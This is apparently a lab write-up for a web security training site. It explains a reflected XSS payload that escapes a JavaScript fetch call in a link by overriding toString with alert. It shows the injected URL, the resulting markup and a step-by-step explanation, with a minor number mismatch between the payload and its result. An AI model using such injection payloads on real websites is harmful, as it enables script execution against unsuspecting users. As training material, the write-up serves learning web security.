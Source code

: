 We can use the following exploit to change fetch function:
```
https://ff.web-security-academy.net/post?postId=5&'},a=b=>{throw/**/onerror=alert,3333},toString=a,window+'',{c:'
```
As a result the fetch inside of `<a>` tag will be changed to the following:
```
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=5&'},a=b=>{throw/**/onerror=alert,1337},toString=a,window+'',{c:''}).finally(_=>window.location='/')">Back to Blog</a>
```

**Explanation**:
Let's start at the beginning:
if we write: `?postId=5'` or even `?postId=5'}` then we get an err from the server: invalid postId. That's why we use `&` as a separator for url params. It separates everything that follows after `&` from the `postId` value which is `5` in the example above.

Let's look again at a simplified payload in the url:
```
/post?postId=5&'},toString=alert,window+'',{c:'
```
After `&` sign we have `'}` this is needed because we want to close an options object that is passed to the fetch function as the second argument. Check out the fetch function before our injection:
```
fetch('/analytics', {method:'post',body:'/post?postId=5'}).finally(_=>window.location='/')
```
And after our simplified injection:
```
fetch('/analytics', {method:'post',body:'/post?postId=5&'},toString=alert,window+'',{c:''}).finally(_=>window.location='/')
```
Few things need to be considered here:
Javascript allows does not care about the amount of arguments that are passed to the function.
In other words if we have a function that accepts 2 params but we pass e.g. 5 arguments, js will not care:
```bash
function ff(a,b) { /* do stuff with a and b */ }
ff(1,2,3,4,5)
```
What's even funnier is that since it doesn't care about third, fourth and subsequent arguments, we can actually do assignments in the places where params should have been passed:
```bash
let bb = 33;
function ff(a,b) { /* do stuff with a and b */ }
ff(1,2,3,bb=100,5)
console.log(bb) // outputs 100
```
Let's look at our simplified injection again:
```
/post?postId=5&'},toString=alert,window+'',{c:'
```
We're trying to concatinate window object with an empty string: `window+''`
Under the hood it calls javascript's built in function `toString` to perfect that concatination.
But before we do `window+''` we actually override javascript's built in `toString` function with `alert` function.
This means that when js tries to concatinate window with an empty string, it will actually call `alert` function because we have overriden toString function.
